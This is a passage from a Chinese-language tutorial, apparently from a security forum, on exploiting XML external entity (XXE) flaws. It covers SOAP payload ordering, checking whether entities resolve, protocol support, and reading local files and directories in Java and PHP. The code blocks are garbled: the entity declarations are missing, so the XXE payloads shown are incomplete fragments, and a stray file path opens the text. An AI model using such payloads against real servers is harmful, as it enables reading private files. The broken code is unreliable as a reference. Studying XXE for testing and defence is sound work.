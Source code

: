 虽然SOAP不是Web服务的专有协议，但它在Web服务领域得到了广泛应用。许多企业和组织使用SOAP来构建他们的分布式系统和应用程序，以实现跨平台和跨网络的数据交换和集成。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-cd159bb06d295d3a51f7b70283c0c7bd8195f31a.png)

注意exp的XML内容要写在SOAP的前面才能正常解析利用：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-c5010af2d522d5f9621ee85d36c6a5cd307fea65.png)

1.3、读取文件
--------

在进行利用之前应该先测试下，目标环境有无回显，是否支持外部实体。

```php
检查是否支持外部实体
<?xml version="1.0" encoding="UTF-8"?> 
 
%foo;
]> 
查看你的服务器是否有请求
```

### 1.3.1、不同平台支持的协议

注意：jdk1.8开始不再支持gopher协议

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-f1a3f63425e510a9d09c205100a197e9b5f888e8.png)

### 1.3.2、有回显

#### 1.3.2.1、读取本地文件

1、Java环境下读取文件

netdoc协议和file协议的作用是一样的，都可以读取文件。

```php
<?xml version="1.0" encoding="UTF-8"?> 

 
]> 
<user><username>&xxe;</username><password>admin</password></user>
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-be0aef3e057482e49f08fa267493fd02798cc14d.png)

2、PHP环境下读取文件

不支持netdoc协议，可以使用file协议读取文件

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-7fe1d10889e572a4515a5b860a860f5239f80437.png)

3、读目录

Java环境下可以使用file协议读取列目录，和ls作用类似
